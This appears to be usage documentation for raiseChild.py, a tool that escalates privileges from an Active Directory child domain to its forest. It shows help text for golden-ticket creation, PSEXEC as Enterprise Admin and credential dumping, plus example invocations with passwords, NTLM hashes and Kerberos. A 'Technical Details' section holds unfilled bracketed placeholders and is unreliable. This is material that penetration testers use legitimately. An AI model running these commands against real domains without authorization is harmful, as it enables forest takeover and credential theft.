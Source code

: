 ### Technical Details:
- Uses [specific protocol/technique]
- Leverages [specific Windows API/service]
- Implements [specific attack technique]
- Compatible with [specific versions/systems]

## Command Line Options

```
usage: raiseChild.py [-h] [-ts] [-debug] [-w pathname] [-target-exec target address] [-targetRID RID]
                     [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                     target

Privilege Escalation from a child domain up to its forest

Required Arguments:
  target                domain/username[:password] (domain MUST be FQDN)

Output Options:
  -w pathname           Writes the golden ticket in CCache format into the <pathname> file
  -target-exec target address
                        Target host to PSEXEC against with Enterprise Admin privileges
  -targetRID RID        Target user RID to dump credentials (default: 500 - Administrator)

General Options:
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

Authentication:
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -no-pass              Don't ask for password (useful for -k)
  -k                    Use Kerberos authentication
  -aesKey hex key       AES key for Kerberos Authentication (128 or 256 bits)
```
## Usage Examples

### Basic Forest Privilege Escalation
```bash
# Basic escalation with password prompt
python3 raiseChild.py child.domain.local/admin

# With explicit password
python3 raiseChild.py child.domain.local/admin:password123

# Using NTLM hash authentication
python3 raiseChild.py -hashes :ntlmhash child.domain.local/admin

# Using Kerberos authentication
python3 raiseChild.py -k child.domain.local/admin
```
